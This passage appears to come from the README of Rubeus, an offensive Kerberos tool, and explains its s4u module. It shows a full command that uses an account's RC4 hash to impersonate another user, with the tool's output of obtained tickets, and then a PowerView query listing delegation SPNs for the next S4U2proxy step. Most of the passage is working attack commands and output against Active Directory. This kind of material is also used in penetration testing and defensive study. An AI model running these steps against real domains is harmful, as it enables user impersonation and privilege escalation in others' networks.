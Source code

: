 A `/impersonateuser:X` parameter **MUST** be supplied to the **s4u** module. If nothing else is supplied, just the S4U2self process is executed, returning a forwardable ticket:

 C:\Rubeus>Rubeus.exe s4u /useratsy /rc4:2b576acbe6bcfda7294d6bd18041b8fe /impersonateuser:dfm.a

 ______ _
 (_____ \ | |
 _____) )_ _| |__ _____ _ _ ___
 | __ /| | | | _ \| ___ | | | |/___)
 | | \ \| |_| | |_) ) ____| |_| |___ |
 |_| |_|____/|____/|_____)____/(___/

 v1.3.3

 [*] Action: Ask TGT

 [*] Using rc4_hmac hash: 2b576acbe6bcfda7294d6bd18041b8fe
 [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
 [*] Building AS-REQ (w/ preauth) for: 'testlab.local\patsy'
 [*] Connecting to 192.168.52.100:88
 [*] Sent 230 bytes
 [*] Received 1377 bytes
 [+] TGT request successful!
 [*] base64(ticket.kirbi):

 doIE+jCCBPagAwIBBaEDAgEWoo...(snip)...


 [*] Action: S4U

 [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
 [*] Building S4U2self request for: 'TESTLAB.LOCAL\patsy'
 [*] Sending S4U2self request
 [*] Connecting to 192.168.52.100:88
 [*] Sent 1437 bytes
 [*] Received 1574 bytes
 [+] S4U2self success!
 [*] Got a TGS for 'dfm.a@TESTLAB.LOCAL' to 'TESTLAB.LOCAL\patsy'
 [*] base64(ticket.kirbi):

 doIF2jCCBdagAwIBBaEDAgEWoo...(snip)...

That forwardable ticket can then be used as a `/tgs:Y` parameter (base64 blob or .kirbi file) to execute the S4U2proxy process. A valid **msds-allowedtodelegateto** value for the account must be supplied (`/msdsspn:X`). Say the **patsy@testlab.local** account looks like this:

 PS C:\> Get-DomainUser patsy -Properties samaccountname,msds-allowedtodelegateto | Select -Expand msds-allowedtodelegateto
 ldap/PRIMARY.testlab.local/testlab.local
 ldap/PRIMARY
 ldap/PRIMARY.testlab.local/TESTLAB
 ldap/PRIMARY/TESTLAB
 ldap/PRIMARY.testlab.local/DomainDnsZones.testlab.local
 ldap/PRIMARY.testlab.local/ForestDnsZones.testlab.local
 ldap/PRIMARY.testlab.local
